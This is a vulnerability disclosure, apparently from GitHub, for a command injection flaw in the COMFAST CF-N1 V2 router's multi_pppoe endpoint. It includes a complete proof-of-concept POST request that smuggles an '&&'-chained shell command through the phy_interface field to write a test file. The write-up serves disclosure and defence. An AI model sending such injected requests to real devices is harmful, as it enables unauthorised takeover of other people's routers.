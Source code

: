 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `multi_pppoe`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_42FF1C`). Attackers can inject arbitrary commands via the `phy_interface` parameter when using the `one_click_redial` action, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_42FF1C` function handling the `multi_pppoe` configuration. Disassembly analysis shows that the `phy_interface` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` when the `action` is set to `one_click_redial`.

Key code flow:



1.  User input (including `phy_interface`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  When `action` is `one_click_redial`, the `phy_interface` value is inserted into a command string using `sprintf_0` (e.g., constructing `ifdown %s; ifup %s` or similar network interface commands).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `&&`, `;`, or `|`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 105
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && echo pppoe > /www-comfast/test.txt","real_num":1}
```



*   **Notes**: The vulnerable parameter is `phy_interface`, exploited using `&&` to chain an additional command.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "pppoe", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
